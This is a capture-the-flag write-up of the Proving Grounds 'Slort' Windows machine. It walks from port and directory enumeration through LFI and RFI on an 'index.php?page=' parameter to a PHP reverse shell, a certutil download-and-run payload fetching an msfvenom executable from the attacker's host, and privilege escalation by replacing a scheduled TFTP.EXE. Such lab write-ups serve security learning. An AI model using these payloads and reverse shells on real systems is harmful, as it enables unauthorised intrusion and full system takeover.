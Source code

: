 ```yaml
---
title: "Slort - PG"
author:
  name: 0xKirito
  link: https://github.com/0xKirito
date: 2022-01-03 05:28:30 +05:30
categories: [Writeups, Proving Grounds]
tags: [PG, LFI, RFI, Windows]
render_with_liquid: false
---
```


## Recon & Enumeration

- `nmap -Pn -p- -A 192.168.174.53`

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, NULL, TerminalServerCookie, WMSRequest, X11Probe: 
|_    Host '192.168.49.174' is not allowed to connect to this MariaDB server
4443/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.174.53:4443/dashboard/
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.174.53:8080/dashboard/
49664/tcp open  unknown
49665/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=12/20%Time=5FDF606F%P=x86_64-pc-linux-gnu%r(N
SF:ULL,4C,"H\0\0\x01\xffj\x04Host\x20'192\.168\.49\.78'\x20is\x20not\x20al
<-SNIP->
SF:r")%r(WMSRequest,4C,"H\0\0\x01\xffj\x04Host\x20'192\.168\.49\.68'\x20is
SF:\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server"
SF:);
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-12-20T14:32:43
|_  start_date: N/A
```

### GoBuster 

```
gobuster dir -u http://192.168.174.53:4443/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50

/img        (Status: 301) [Size: 345] [--> http://192.168.174.53:4443/img/]
/site       (Status: 301) [Size: 346] [--> http://192.168.174.53:4443/site/]
/dashboard  (Status: 301) [Size: 351] [--> http://192.168.174.53:4443/dashboard/]

=====================================================

gobuster dir -u http://192.168.174.53:8080/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50

/img        (Status: 301) [Size: 345] [--> http://192.168.174.53:8080/img/]
/site       (Status: 301) [Size: 346] [--> http://192.168.174.53:8080/site/]
/dashboard  (Status: 301) [Size: 351] [--> http://192.168.174.53:8080/dashboard/]
```

- I actually got the same results on both ports and the content is exactly the same. Not really sure if one is proxy or something 
- If you visit http://192.168.174.53:4443/site/, it redirects to http://192.168.174.53:4443/site/index.php?page=main.php 
- If you visit http://192.168.174.53:8080/site/, it redirects to http://192.168.174.53:8080/site/index.php?page=main.php 

---

## Exploitation 

### LFI RFI 

- If you haven't noticed it already, there is a vulnerable looking parameter there: `index.php?page=main.php` so we will have to test it for LFI and RFI 

http://192.168.174.53:4443/site/index.php?page=main.php 

```
ffuf -u 'http://192.168.174.53:4443/site/index.php?page=FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -c -t 50 -fw 34 | grep -v '*passwd* \| *passwd%00 \| *shadow%00'

ffuf -u 'http://192.168.174.53:4443/site/index.php?page=FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt -c -t 50 -fw 34

C:/Users/Administrator/NTUser.dat [Status: 200, Size: 372, Words: 31, Lines: 5]
C:/WINDOWS/System32/drivers/etc/hosts [Status: 200, Size: 824, Words: 172, Lines: 22]
```

#### PHP Info Page phpinfo.php 

- http://192.168.174.53:4443/site/index.php?page=../dashboard/phpinfo.php 
- http://192.168.174.53:8080/site/index.php?page=../dashboard/phpinfo.php

#### Other Could-Be-Important Findings 

- `C:\xampp\php\logs\php_error_log`

- Then I tested for RFI with a text file and simple HTTP Python server and was able to confirm RFI 

### Reverse Shell with RFI Remote File Inclusion 

- [PHP Windows Shell](https://github.com/Dhayalanb/windows-php-reverse-shell) 
- Add IP and Port 
- It did not work with default directory so I got the directory from phpinfo.php file from our LFI earlier and then I got a reverse shell as user `rupert` 

```php
$ip   = "192.168.49.174";
$port = "445";
// $tmpdir = "C:\\windows\\temp";
$tmpdir = "C:\\xampp\\apache";
```

- `python3 -m http.server`
- `nc -lvnp 445`

```
http://192.168.174.53:8080/site/index.php?page=http://192.168.49.174/winshell.php
```

- `whoami => rupert`

### Another Method 

- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.174 LPORT=135 -f exe -o shell.exe`

- `cat pwn.php`

```php
<?php
$exec = system('certutil.exe -urlcache -split -f "http://192.168.49.174/shell.exe" shell.exe', $val);
?>
```

```
curl http://192.168.174.53:8080/site/index.php?page=http://192.168.49.174/pwn.php
```

- Then to execute the `shell.exe` file we transferred onto the target, edit it like below and send a curl request again or just visit that link in the browser 
- `cat pwn.php`

```php
<?php
$exec = system('shell.exe', $val);
?>
```

---

## Privilege Escalation 

- Backup directory in `C:\` looks interesting 

```
> cd C:\Backup
> dir

01/02/2022  05:09 PM    <DIR>          .
01/02/2022  05:09 PM    <DIR>          ..
06/12/2020  06:45 AM            11,304 backup.txt
06/12/2020  06:45 AM                73 info.txt
01/02/2022  04:41 PM             7,168 TFTP.EXE
06/23/2020  06:49 PM            73,802 TFTP.EXE.BAK
               4 File(s)         92,347 bytes
               2 Dir(s)  27,226,210,304 bytes free

> type info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt
```

- It is automatically running every 5 minutes so we can try replacing it with our reverse shell. Check access and details with `accesschk` or `sc qc` 
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.174 LPORT=135 -f exe -o shell.exe`
- `move TFTP.EXE TFTP.EXE.BAK` - always take a backup of the original file 
- `copy C:\Users\rupert\shell.exe TFTP.EXE`
- `nc -lvnp 135`
- `whoami => slort\administrator`

```
whoami && hostname && ipconfig | findstr IPv4 && type proof.txt
slort\administrator
slort
   IPv4 Address. . . . . . . . . . . : 192.168.174.53
39947eae21088415f145c9c626f9fa
```

